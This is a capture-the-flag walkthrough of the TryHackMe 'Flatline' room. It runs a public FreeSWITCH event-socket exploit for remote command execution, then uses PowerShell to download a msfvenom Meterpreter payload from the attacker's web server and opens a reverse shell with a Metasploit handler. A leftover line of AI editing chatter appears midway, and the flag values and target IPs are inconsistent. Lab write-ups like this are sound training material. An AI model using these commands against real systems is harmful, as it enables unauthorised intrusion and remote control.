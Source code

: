 <div align="center">[Flatline TryHackMe Walkthrough — Complete Step-by-Step Guide to Root](https://tryhackme.com/room/flatline)</div>


## Task 1 . Flags

### 1.1. What is the user.txt flag?
```
THM{64bca0843d535fa733eecdc59d27cbe26}
```
### 1.2. What is the user.txt flag?
```
THM{8c8bc5558f0f3f8060d00ca231a9fb5e}
```

## Initial Enumeration

As always, I kicked things off with an **Nmap scan** to enumerate the open services running on the target machine (`10.201.79.236`). I used the following command:

```bash
nmap -sV -sC -Pn 10.201.79.236
```

* `-sV` → Detects service versions
* `-sC` → Runs default Nmap scripts for additional info
* `-Pn` → Skips host discovery (treats host as online)

The scan revealed two interesting open ports:

```
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

* Port **3389 (RDP)** indicated that the machine was running Microsoft’s Remote Desktop Service.
* Port **8021 (FreeSWITCH mod\_event\_socket)** caught my attention, since FreeSWITCH is a VoIP service that has been known to contain vulnerabilities.

The domain name of the system was also disclosed as:

```
WIN-EOM4PK0578N
```

At this point, my main focus shifted toward the **FreeSWITCH service** to check if it was exploitable.

---

## Finding Vulnerabilities

I searched Exploit-DB using `searchsploit` to see if there were any publicly available exploits for FreeSWITCH:

```bash
searchsploit FreeSWITCH
```

The results looked promising:

```
-$ searchsploit Freeswitch
--------------------------------------------------------- ---------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit) | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                    | windows/remote/47799.txt
--------------------------------------------------------- ---------------------------
```

The second one looked like a straightforward **remote code execution (RCE)** exploit, so I pulled the exploit file for review:

```bash
searchsploit -m windows/remote/47799.txt
cat 47799.txt
```

Inside, I found an example usage that confirmed command execution was possible via the FreeSWITCH event socket.

---

## Exploitation

I decided to test the exploit directly by executing a simple `whoami` command against the target:

```bash
python3 47799.txt 10.201.79.236 whoami
```

The exploit worked!

```
Authenticated
win-eom4pk0578n\nekrotic
```

That confirmed I had remote command execution on the machine as the **Nekrotic** user.

---

## Exploring the File System

With code execution in place, I explored the `C:\` drive to see the file structure:

```bash
python3 47799.txt 10.201.79.236 "dir C:\"
```

Output:

```
PerfLogs
Program Files
Program Files (x86)
projects
Users
Windows
```

Inside the **Users** directory, I found two accounts:

* Administrator
* Nekrotic

Naturally, I went straight for `Nekrotic\Desktop` to check for any flags.

```bash
python3 47799.txt 10.201.79.236 "dir C:\Users\Nekrotic\Desktop"
```

And there they were:

```
user.txt
root.txt
```
Perfect — now I’ll polish your **second part** into a **Medium-optimized walkthrough section** with a smooth flow, headings, SEO keywords, and explanations in first-person style.

---

## 📝 Capturing the User Flag

With remote code execution working, my next goal was to capture the **user flag**. I retried the command execution and this time I was able to successfully read the contents of `user.txt`:

```bash
python3 47799.txt 10.201.15.213 "type C:\\Users\\nekrotic\\Desktop\\user.txt"
```

Output:

```
Authenticated
Content-Type: api/response
Content-Length: 38

THM{64bca0843d535fa73eecdc59d27cbe26}
```

🎉 **User Flag:** `THM{64bca0843d535fa73eecdc59d27cbe26}`

At this stage, I had successfully retrieved the user flag, but attempts to access `root.txt` failed:

```bash
python3 47799.txt 10.201.15.213 "type C:\\Users\\nekrotic\\Desktop\\root.txt"
```

The exploit returned:

```
Authenticated
Content-Type: api/response
Content-Length: 14

-ERR no reply
```

Clearly, I needed a more **stable foothold** to interact with the system properly.

---

## 🎯 Establishing a Reverse Shell

Since direct flag extraction wasn’t reliable, I switched to a more stable approach — gaining a **reverse shell** using `msfvenom` and Metasploit’s handler.

First, I generated a Windows Meterpreter payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.17.30.120 LPORT=4444 -f exe > payload.exe
```

* `-p` → payload type
* `LHOST` → my attacker IP
* `LPORT` → port for reverse connection
* `-f exe` → output format as Windows executable

---

## 🚚 Delivering the Payload

To transfer the payload to the victim machine, I started a simple Python web server on my attack box:

```bash
python3 -m http.server 8000
```

Then, using the FreeSWITCH exploit, I downloaded the payload onto the victim’s Desktop:

```bash
python3 47799.txt 10.201.14.41 "powershell Invoke-WebRequest -URI http://10.17.30.120:8000/payload.exe -o C:\\Users\\Nekrotic\\Desktop\\payload.exe"
```

I confirmed the payload was successfully delivered:

```bash
python3 47799.txt 10.201.14.41 "dir C:\\Users\\Nekrotic\\Desktop"
```

Output:

```
payload.exe
root.txt
user.txt
```

---

## ⚡ Gaining Access with Meterpreter

With the payload on the target, I set up a Metasploit handler to catch the reverse shell:

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.17.30.120
set LPORT 4444
run
```

Finally, I executed the payload on the victim machine:

```bash
python3 47799.txt 10.201.14.41 "C:\\Users\\Nekrotic\\Desktop\\payload.exe"
```

Boom! I got a **Meterpreter session** back, giving me a much more stable and interactive shell on the victim system.

<img width="595" height="112" alt="Screenshot 2025-09-05 185013" src="https://github.com/user-attachments/assets/81403979-20f5-43f2-a2a8-711e06b224ac" />
